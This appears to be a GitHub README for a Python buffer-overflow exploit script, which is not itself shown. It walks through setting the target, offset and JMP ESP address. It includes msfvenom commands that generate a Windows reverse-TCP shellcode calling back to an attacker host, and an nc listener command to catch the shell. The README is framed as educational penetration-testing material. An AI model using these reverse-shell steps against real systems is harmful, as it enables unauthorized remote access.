 # Buffer Overflow Exploit Script

## Description 📜
This script is a **dummy** code for exploiting a **Buffer Overflow (BOF)** vulnerability by sending a custom payload to overflow memory in the target program. Default settings are included and **require modification** for proper functionality on the target system.

⚠️ **Warning:** This script is **intended for educational purposes** and ethical penetration testing only. Unauthorized use may lead to legal consequences.

---

## Requirements 💻
- Python 3
- The `socket` library (pre-installed with Python)
- A target system that has a BOF vulnerability and accepts network input

## How to Use 🚀

1. **Configure the Script:**
   - Update the `ip` and `port` variables to match your target.

2. **Customize the Shellcode:**
   - Use `msfvenom` to generate the appropriate shellcode and update the `sc` variable with it. Example command:
     ```bash
     msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> EXITFUNC=thread -b "\x00" -f python -v "sc"
     ```

3. **Set the Offset:**
   - Define the correct offset for the overflow in the `offset` variable based on your target program. The default here is set to 634.

4. **Adjust JMP ESP Address:**
   - Extract the correct JMP ESP address using the `mona` tool and replace the `jmp` variable.

5. **Run the Script:**
   - After configuring all variables, run the script with:
     ```bash
     python exploit.py
     ```

6. **Activate a Listener:**
   - Open a listener on your system to receive the reverse shell connection:
     ```bash
     nc -nlvp <YOUR_PORT>
     ```

---

## Script Structure 🧩
- `ip`: Target IP address
- `port`: Target port for connection
- `command`: Command prefix for the buffer overflow exploit
- `offset`: Number of characters to overflow
- `jmp`: JMP ESP address
- `nops`: NOP sled to guide the payload
- `sc`: The shellcode payload for reverse shell or command execution

---

## Example 📍
### Generating Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=9001 EXITFUNC=thread -b "\x00" -f python -v "sc"
```

---

## Final Notes 📌
- Ensure that the changes you make align with the target and BOF type.
- Test the script in a fully secure environment before using it in any real-world applications.
- 
---

## Disclaimer ⚠️
**Unauthorized use** of this script may be illegal.

